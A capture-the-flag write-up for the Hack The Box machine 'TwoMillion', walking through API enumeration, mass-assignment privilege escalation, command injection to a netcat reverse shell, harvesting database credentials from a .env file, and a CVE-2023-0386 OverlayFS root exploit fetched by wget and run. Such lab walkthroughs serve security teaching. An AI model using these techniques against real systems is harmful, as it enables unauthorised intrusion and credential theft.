

# TwoMillion

## Overview

---

**TwoMillion** is a Linux-based Hack The Box machine focused on web API abuse and privilege escalation.

The compromise began by deobfuscating client-side JavaScript to uncover hidden API endpoints. A Mass Assignment vulnerability allowed privilege escalation to administrator, which exposed a command injection flaw in a VPN generation endpoint, leading to Remote Code Execution.

Post-exploitation revealed database credentials inside a .env file, enabling SSH access. Root privileges were ultimately obtained by exploiting **CVE-2023-0386 (OverlayFS)** in the Linux kernel.

## **Skills Demonstrated**

---

**Web & Application Security**

- JavaScript deobfuscation
- API endpoint enumeration
- Mass Assignment exploitation
- Command Injection → RCE
- Reverse shell stabilization
- Credential harvesting (.env)
- SSH lateral movement
- Kernel exploit (CVE-2023-0386)

## Nmap Enumeration

---

The initial Nmap scan revealed two main open ports: **SSH** on port **22** and **HTTP** on port **80.**

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -sC -F 10.10.11.221
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-08 15:48 EST
Nmap scan report for twomillion.htb (10.10.11.221)
Host is up (0.094s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://2million.htb/

Nmap done: 1 IP address (1 host up) scanned in 4.74 seconds
```

The scan, using the default scripts (**`-sC`**), revealed a crucial piece of information about the web server:

```bash
|_http-title: Did not follow redirect to [http://2million.htb/](http://2million.htb/)
```

### **Nmap Flag Explication**

---

The options used in the Nmap scans allow us to determine the port status and gather additional information about the services running on the target.

- **-sS : TCP SYN scan**

Sends a **SYN** packet to the ports. This is the fastest and "stealthiest" method as it does not complete the TCP *three-way handshake*, making it less likely to be logged by the target systems.

- SYN/ACK Response: Port is Open.
- RST Response: Port is Closed.
- No Response / ICMP Unreachable: Port is Filtered (blocked by a firewall).
- **-sC : Default Script Scan**

Executes a set of default **NSE (Nmap Scripting Engine)** scripts. These scripts can detect common vulnerabilities, retrieve web page titles, and gather extra configuration information (like SSH *hostkeys*).

- **-F : Fast scan**

Limits the scan to only the **100 most common TCP ports**, speeding up the process compared to scanning all 65535 ports.

With the corrected entry in **`/etc/hosts`**, the logical next step is to perform thorough web enumeration on **`http://2million.htb`** (port 80) to discover directories, files, and any available functionality.
 

## **Web Application Enumeration**

---

Navigating to**`http://2million.htb`** after updating the **`/etc/hosts`** file displays the target web application.

The application presents a standard interface, featuring a navigation menu at the top with several options. The most interesting features for an attacker, as they imply user interaction and potential backend processing, are the Join and Login functionalities.



Upon clicking **`Join`**, the application redirects us to a banner page titled **"Invite Code"**.

Since the application requieres an **Invite Code,** the ****immediate action is to search for any scripts or network requests related to the invitation mechanism.

By inspecting the browser’s developer tools, specifically the Debugger and the Sources tab, a highly suspicious JavaScript was identified: **`inviteapi.min.js`.**

The file’s content is heavily obfuscated and uses the **`eval()`**
function to execute the main logic.


---

### Deobfuscating

To analyze the logic behind the “Invite Code”, the obfuscated payload from**`inviteapi.min.js`**  was passed to an online JavaScript deobfuscator.


After deobfuscation, the code reveals the true functions used by the web application: **`verifyInviteCode`** and, more importantly, **`makeInviteCode`**.

The deobfuscated script defines two main functions using AJAX (Asynchronous JavaScript and XML) calls :

- **`verifyInviteCode(code)`**: This function is responsible for submitting the entered code to the server.
- **`makeInviteCode()`**: This function is the key to our next step. It defines a **POST** request to a highly specific and critical endpoint: **`/api/v1/invite/how/to/generate`**.


### API Endpoint Discovery and Validation

---

We identified two potential paths to obtain the invite code:

1. **Fuzzing -** Running a tool like  **`ffuf`** to brute-force directories or files that might directly contain the code or generation logic.
2. **Function Call -** Directly executing the exposed function, **`makeInviteCode()`** , from the browser’s developer console, as this function explicitly targets the desired API endpoint.

Although the code revealed the crucial **`/api/v1/invite/how/to/generate`** endpoint, I also ran **`ffuf`**  against the **`/api/v1/invite/`**  ****path to discover other ****valid API resources, confirming the initial findings and searching for additional entry points.

```bash
                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ffuf -w "/usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints-res.txt" -u "http://2million.htb/api/v1/invite/FUZZ" -fs 162 -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://2million.htb/api/v1/invite/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints-res.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 162
________________________________________________

generate                [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 203ms]
verify                  [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 299ms]
generate                [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 322ms]
verify                  [Status: 405, Size: 0, Words: 1, Lines: 1, Duration: 299ms]
:: Progress: [12334/12334] :: Job [1/1] :: 125 req/sec :: Duration: [0:02:12] :: Errors: 0 ::
```

The fuzzing results confirmed the existence of two main functionalities:

| **Endpoint** | **Method Status** | **Implication** |
| --- | --- | --- |
| **`/generate`** | **405 Method Not Allowed** | This endpoint exists but **requires the POST method**. |
| **`/verify`** | **405 Method Not Allowed** | This endpoint exists but **requires the POST method**. |

The **`405 Method Not Allowed`** status code is highly informative: it confirms the endpoints are valid, but the default HTTP method used by the fuzzing tool (GET) is incorrect. The server expects a POST request, which aligns perfectly with the AJAX calls found in the **`inviteapi.min.js`** file.

**Summary of API Discovery** 

- **Generation Instructions:** **`/api/v1/invite/how/to/generate`** (POST)
- **Final Generation Endpoint:** **`/api/v1/invite/generate`** (POST)
- **Verification Endpoint:** **`/api/v1/invite/verify`** (POST)

---

Given that the client-side JavaScript already provided the exact endpoint and the correct POST method the Function call was the fasted way to progress. Executing **`makeInviteCode()`** in the browser console yielded the following critical response.

The server returned a JSON object containing the instructions bu they were encrypted:


The server provided the encrypted data and explicitly specified the encryption type: **ROT13.**

We take the encrypted data string and pass it to ROT13 decoder: **`Va beqre gb trarerag gur vaivgr pbqr, znxr n CBFG erdhfrg gb /nci/i1/vaivgr/trarerag`** 

After applying the ROT13 cipher, the decrypted message is revealed:

> “ In order to generate the invite code, make a POST request to /api/v1/invite/generate”
> 


### Generating the invite Code

---

The instructions are clear: we must now send a **POST** request to the endpoint **`/api/v1/invite/generate`**.  Unlike the previous request to **`/how/to/generate`**, this is the final endpoint intended to return the actual invite code.

We use **`curl`** to execute this final instruction:

```bash
┌──(kali㉿kali)-[~]
└─$ curl -X POST 'http://2million.htb/api/v1/invite/generate' \
     -H 'Content-Type: application/json' \
     -d '{}' -i
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 18 Nov 2025 18:24:07 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
Set-Cookie: PHPSESSID=tddg6lffm705hhfbd7n5jqag3h; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

{"0":200,"success":1,"data":{"code":"M0w0S1EtUEdKUFMtNDFJQUEtQVlPQlA=","format":"encoded"}} 
```

The server finally responded with the valid invited code, but it is still obscured. The format **`format: "encoded"`**  field confirms that the string **`S05NMU8tWENYSEwtNlVXREMtN0pZWUE=`** is not the final code itself. The string structure (ending with **`=`**) strongly suggests that it is **Based64.**

### Curl Command Explication

---

We used the following flags in the **`curl`** command to correctly simulate the necessary API call:

- **`-X POST`**: Explicitly sets the HTTP request method to **POST,** as confirmed by the API structure (and the **405** error form ffuf).
- **`-H 'Content-Type: application/json'`**: Adds the necessary HTTP header to inform the sever that the data being sent in the body is in **JSON** format.
- **`-d '{}'`**: Sends an empty JSON body ( { } ). Even if the server doesn’t requiere any data, **POST** requests often expect a body, and this satisfies that requierement.
- **`-i`**: Includes the  **HTTP response headers** in the output, which can be useful for debugging or confirming cookies/status codes (though not strictly necessary for the final code).

---

The final step for the phase is to decode the Based64 string to retrieve the usable invite code.

```bash
┌──(kali㉿kali)-[~]
└─$ echo "M0w0S1EtUEdKUFMtNDFJQUEtQVlPQlA=" | base64 -d
3L4KQ-PGJPS-41IAA-AYOBP   
```

With the final Base64-decoded invite code, we can finally proceed to the registration page.


---

### Initial Access and API Exploration

After successfully registering with the invite code, we log in using our credentials. We are redirected to a dashboard that simulates a basic **Hack the Box**  control panel.

While dashboard itself doesn’t contain immediate exploits, it confirms successful authentication and grants us access to the deeper functionalities of the web application.


Once authenticated, we observe that the application grants us **full access to the API documentation** at the **`/api/v1`** endpoint. This documentation, previously hidden, now lists all internal routes, including those reserved for administrators.

The most critical finding is the exposure of the **`admin`** routes, which are clearly listed in the documentation:

| Method | Endpoint | Description |
| --- | --- | --- |
| **GET** | **`/api/v1/admin/auth`** | Check if user is admin. |
| **POST** | **`/api/v1/admin/vpn/generate`** | Generate VPN for specific user. |
| **PUT** | **`/api/v1/admin/settings/update`** | **Update user settings.** |

This exposure immediately suggests a potential **Authorization Bypass** vulnerability. The goal is now clear: use the **`PUT /api/v1/admin/settings/update`** endpoint to modify our user role and gain administrative privileges.


To properly test the security of the exposed **`PUT /api/v1/admin/settings/update`** endpoint, we use **Burp Suite** to intercept an authenticated request. This allows us to capture our current session **Cookie** and the necessary **`Content-Type`** header for authenticated API interactions.


The intercepted request is sent to **Burp Suite Repeater**, where we can precisely craft and modify the JSON payload to search for a **Mass Assignment** vulnerability.

Our objective is to test if the API endpoint accepts and processes a parameter that dictates the user's privilege level (e.g., **`is_admin`, `role`**), which is typically not exposed to a standard user interface.

We construct a request targeting the **`/api/v1/admin/settings/update`** endpoint with a JSON body designed to elevate our privileges:


After receiving the successful response from the **`PUT`** request, we must confirm that our user profile, **`theCrack`**, now has administrator privileges.

We use the dedicated API endpoint for this check, as revealed in the documentation: **`GET /api/v1/admin/auth`**.


The response, **`{"admin":1}`**, confirms that the privilege escalation was successful. We now have **full administrative access** to the exposed API routes.

---

With administrator access, we can now review the remaining API endpoints for a path to Remote Code Execution (RCE). The documentation shows a critical administrative function:

| Method | Endpoint | Description |
| --- | --- | --- |
| **POST** | **`/api/v1/admin/vpn/generate`** | **Generate VPN for specific user.** |

his endpoint is designed to generate a VPN configuration file for a user, likely requiring a user identifier (like **`usernam**e` or **`user_id`**) in the POST data. Functions that generate system files often use the input data in a command-line utility (like OpenVPN's configuration tools) without proper sanitization, making them highly vulnerable to **Command Injection**.


After sending the request, the command is executed by the server, and a connection is received instantly on our listener.

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.221] 37922
bash: cannot set terminal process group (1195): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

The initial reverse shell obtained via the RCE was unstable and lacked basic functionalities like autocompletion and command history. To facilitate reliable enumeration and session management, we upgraded the shell to a fully interactive TTY.

We used the **`script`** utility to create a new interactive shell session:

```bash
listening on [any] 9001 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.221] 37922
bash: cannot set terminal process group (1195): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@2million:~/html$
```

Close the shell 

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.221] 37922
bash: cannot set terminal process group (1195): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@2million:~/html$ ^Z
zsh: suspended  nc -lvnp 9001
```

After establishing the initial reverse shell and confirming the **`www-data`** user, we performed the first stabilization step (**`script /dev/null -c bash`**).

To further enhance the shell's stability, control the terminal behavior, and ensure proper function after potential interruptions (like closing and reopening the connection), we use the following sequence in the attacking machine (Kali Linux) to fully upgrade the TTY:

```bash
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 9001
reset xterm

www-data@2million:~/html$ 
```

After stabilizing the shell, I performed detailed file enumeration and discovered a hidden configuration file: **`.env`**. 

```bash
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Nov 29 18:50 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Nov 29 18:50 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
www-data@2million:~/html$
```

```bash
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

The file contained a username and password, which immediately suggested a potential **lateral movement** opportunity via SSH.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh [admin@10.10.11.221admin@10.10.11.221](mailto:admin@10.10.11.221)'s password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
- Documentation: [https://help.ubuntu.com](https://help.ubuntu.com/)
- Management: [https://landscape.canonical.com](https://landscape.canonical.com/)
- Support: https://ubuntu.com/advantage

System information as of Sat Nov 29 06:54:44 PM UTC 2025

System load:  0.0               Processes:             223
Usage of /:   73.1% of 4.82GB   Users logged in:       0
Memory usage: 9%                IPv4 address for eth0: 10.10.11.221
Swap usage:   0%

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

We have successfully completed the User Phase and retrieved the **`user.txt`** flag.

```bash
admin@2million:~$ ls
user.txt
```

---

Having connected via SSH, our goal is to find a path to the **`root`** user, so we proceed with a detailed file system audit, focusing sensitive configuration or executables owned by potentially high-privileged users, such as an **`admin`** user.

We execute the following command to search the entire filesystem for files owned by the user **`admin`**, while suppressing common noise from temporary system directories:

```bash
admin@2million:~$ find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
/home/admin
/home/admin/.cache
/home/admin/.cache/motd.legal-displayed
/home/admin/.ssh
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
/dev/pts/0
```

Checking the system mail, we discovered a message indicating that the machine is related to a known CVE.

```bash
admin@2million:~$ cat /var/mail/admin
From: ch4p [ch4p@2million.htb](mailto:ch4p@2million.htb)
To: admin [admin@2million.htb](mailto:admin@2million.htb)
Cc: g0blin [g0blin@2million.htb](mailto:g0blin@2million.htb)
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: [9876543210@2million.htb](mailto:9876543210@2million.htb)
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're 
partially down, can you also upgrade the OS on our web host? There have been a few 
serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. 
We can't get popped by that.

HTB Godfather
```

To target the exploitation, we checked the operating system and kernel version using **`uname -a`**:

```bash
admin@2million:~$ uname -a
Linux 2million 5.15.70-051570-generic 202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 
x86_64 x86_64 x86_64 GNU/Linux
```

Researching this specific kernel version (**`5.15.70`**) revealed a critical vulnerability: **CVE-2023-0386**, a flaw related to **OverlayFS** that allows local users to gain root privileges.

[https://github.com/puckiestyle/CVE-2023-0386](https://github.com/puckiestyle/CVE-2023-0386)

### Exploit Delivery and Execution

The strategy shifted to obtaining, transferring, and compiling a public exploit for CVE-2023-0386 onto the target machine.

### 1. Setup Local HTTP Server

We downloaded the exploit repository onto the attacking machine (Kali Linux) and set up a temporary HTTP server to serve the compressed file (**`.tar.bz2`**) to the target.

```bash
┌──(kali㉿kali)-[~/www]
└─$ ls
CVE-2023-0386.tar.bz2
```

```bash
┌──(kali㉿kali)-[~/www]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 ([http://0.0.0.0:8080/](http://0.0.0.0:8080/)) ...
```

### 2. Transferring the Exploit

From the target machine, we used **`wget`** to download the compressed exploit file into a temporary directory:

```bash
admin@2million:~$ cd script/
admin@2million:~/script$ wget 10.10.14.19:8080/CVE-2023-0386.tar.bz2
--2025-12-01 04:21:29--  [http://10.10.14.19:8080/CVE-2023-0386.tar.bz2](http://10.10.14.19:8080/CVE-2023-0386.tar.bz2)
Connecting to 10.10.14.19:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 468769 (458K) [application/x-bzip2]
Saving to: ‘CVE-2023-0386.tar.bz2’

CVE-2023-0386.tar.bz2        100%[==============================================>] 457.78K   716KB/s    in 0.6s

2025-12-01 04:21:30 (716 KB/s) - ‘CVE-2023-0386.tar.bz2’ saved [468769/468769]

```

### 3. Execution and Root Shell

The exploit requires running two components concurrently. We execute the first component in our current SSH session to set up the environment:

```bash
admin@2million:~/script$ ls
CVE-2023-0386.tar.bz2
admin@2million:~/script$ tar -xjvf CVE-2023-0386.tar.bz2
admin@2million:~/script$ cd CVE-2023-0386/
admin@2million:~/script/CVE-2023-0386$ make all
admin@2million:~/script/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
```

Then, we open a **second terminal window (SSH connection)**, navigate to the same directory, and run the second component, which triggers the privilege escalation:

```bash
admin@2million:~/script/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Dec  1 04:24 .
drwxrwxr-x 6 root   root     4096 Dec  1 04:24 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:~/script/CVE-2023-0386# 

```

After achieving a root shell, we located the final flag file in the **`/root`** directory:

```bash
root@2million:/root# ls
root.txt  snap  thank_you.json
root@2million:/root# cat thank_you.json
{"encoding": "url", "data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"}
root@2million:/root# 
```

The **`thank_you.json` file was also encoded**. To decode the message, we utilized **CyberChef** to chain the necessary operations, effectively reversing the steps used to encrypt the final message:

- **URL Decode:** Reversing the initial layer of encoding.
- **From Hex:** The resulting data was decoded from **Hexadecimal** format.
- **From Base64:** The output was passed to a **Base64 Decode** operation.
- **XOR Decrypt:** The final decryption was performed using the known key **`HackTheBox`**.

By applying these steps sequentially, the final message was successfully revealed.


